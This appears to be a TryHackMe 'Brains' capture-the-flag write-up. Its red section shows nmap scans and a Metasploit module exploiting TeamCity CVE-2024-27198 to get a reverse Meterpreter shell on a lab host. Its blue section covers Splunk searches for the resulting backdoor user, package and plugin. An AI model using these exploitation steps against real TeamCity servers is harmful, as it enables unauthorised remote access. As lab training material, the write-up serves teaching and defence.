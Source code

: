 ![Nmap Scan](Theme%20Brains.JPG)
> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

<span style="color: red; font-size: 60px"><strong>🔴 RED exploit the server!</strong></span>
# 1. What is the content of flag.txt in the user's home folder?

<Details>
      
# 1. First Step: run in the Terminal "nmap -p- *Target_IP_Address* "

```bash
nmap -p- 10.10.252.192
````
 1. "nmap" -> The network scanner tool
 2. "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
 3. "Target_IP_Address" -> The IP address of the target — in the case of the Brains room
      
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)
   
# What ports are open and why they matter: 
   1. 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
   2. 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
   3. 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.
   
# Run a targeted service/version scan for PORT 50000 "nmap -sV -p 50000 *Target_IP_Address* "
   ```bash
   nmap -sV -p 50000 10.10.252.192
   ```
   
# 2. Second Step: What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability
   
   *The most interesting one here is Port 50000: even though it's labeled ibm-db2, we know now it runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).*
   ```bash
   msfconsole
   ```
   1. "msfconsole" -> This launches the Metasploit interface.
   
   ```bash
   search teamcity
   ```
   1. "search teamcity" -> This will list available exploit modules related to TeamCity
   *Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198*
   
#  Use the module:
   ```bash
   use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
   ```
# After loading an exploit module in Metasploit, you should always run: 
   ```bash
   options
   ```
   1. "options" -> This command shows you all the configurable parameters for the selected module
      
   ![Nmap Scan](Brain%20Room%20exploit%20run.JPG)
   
   *We need to set the correct options before running the exploit.*
   ```bash
   set RHOSTS 10.10.252.192     # Target IP address
   set RPORT 50000              # Target port where TeamCity is running
   ```
   *Once all the necessary parameters (like RHOSTS, RPORT) are configured and verified using the options command, it's time to execute the exploit*
   ```bash
   run   #or exploit
   ```
# Expected Output:
   *If the target is vulnerable and the configuration is correct, you should see output similar to this:*
   ```bash
   [*] Started reverse TCP handler on 10.10.X.X:4444
   [*] Sending stage (57971 bytes) to 10.10.X.X
   [*] Meterpreter session 1 opened ...
   ```
   *This confirms that you now have a meterpreter shell on the target machine!*
   
# Now That We Are in Meterpreter...Navigate the file system
   ```bash
   cd /home/cd ubuntu
   ls
   ```
   *Once you find it, read its contents*
   ```bash
   cat flag.txt
   ```
   ![Nmap Scan](Brain%20Room%20flag.JPG)
   
# ✅ CONGRATULATIONS!!! Now we have the first FLAG
# For ethical and platform policy reasons, I cannot display the actual contents of the flag.txt file
   *Instead, here is a simulated example of what the output would look like:*
   
   ```bash
   meterpreter > cat flag.txt
   THM{redacted_for_policy}
   ```
   </Details>

# BLUE lets investigate!
# 1. What is the name of the backdoor user which was created on the server after exploitation?
<Details>
   
# First Step: Access the Web Application
   *Once the target machine is deployed, open your web browser and navigate to the following address:*
   ```bash
   10.10.249.14:8000
   ```
   1. "10.10.249.14" -> The target machine's IP address
   2. "8000" -> The port number
   
# Second Step: Access Search & Reporting
   
   *In the left-hand panel, you can see a list of installed apps within Splunk; Click on Search & Reporting*
   
   ![Nmap Scan](Brain%20Room%20Web%20search.JPG)
   
# Search for the Backdoor User
   *Now that we are inside Search & Reporting, it's time to use Splunk’s powerful query system to investigate the logs and answer the first question*
   *We're going to search inside the authentication logs (auth.log) for entries related to the creation of new users.*
   
   ```bash
   source="/var/log/auth.log" *new user* #Set Time Range to “All time”
   ```
   ![Nmap Scan](Brain%20Room%20F1.JPG)

   *Look specifically for an event that occurred on 7/4/24 in the logs*
# ✅ CONGRATULATIONS!!! The value in place of [NAME] is the flag answer to the challenge question*

</Details>

# 2. What is the name of the malicious-looking package installed on the server?
<Details>

# Lets find the Malicious-Looking Package Installed on the Server
  *we’ll search in Splunk’s logs for any package installation events*

  ```bash
  source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*

  # source="/var/log/dpkg.log" → This is the Debian package manager log, which records installed
  # date_month="july" → We filter by the correct month.
  # date_mday="4" → And the specific day of the event: April 7th, 2024 is interpreted as July 4 based on the system’s locale format in Splunk
  # *install* → We're looking for any entries that contain the word install, which is part of the log line when a package is installed.
  ```

  *Why This Date? We know from previous investigation that the exploitation happened on 7/4/24*
  *In the search results, you'll see lines like: install [PACKAGE-NAME] [version]*

# ✅ CONGRATULATIONS!!! The [PACKAGE-NAME] that looks suspicious is our answer to the question

</Details>

# 3. What is the name of the plugin installed on the server after successful exploitation?
<Details>

# Identify the Plugin Installed After Exploitation
 *we need to check TeamCity’s activity logs, which record changes in the system, including plugin uploads or installations.*

 ```bash
source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" *plugin*

# source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" → This is the log file where TeamCity activity events (like plugin actions) are recorded.
# *plugin* → We use a wildcard search to look for any lines that contain the word plugin, which likely appears during plugin installation.
```

# ✅ CONGRATULATIONS!!! Pro Tip: The plugin will appear in plain text, but when submitting the answer to the question, make sure to append .zip to the name

</Details>






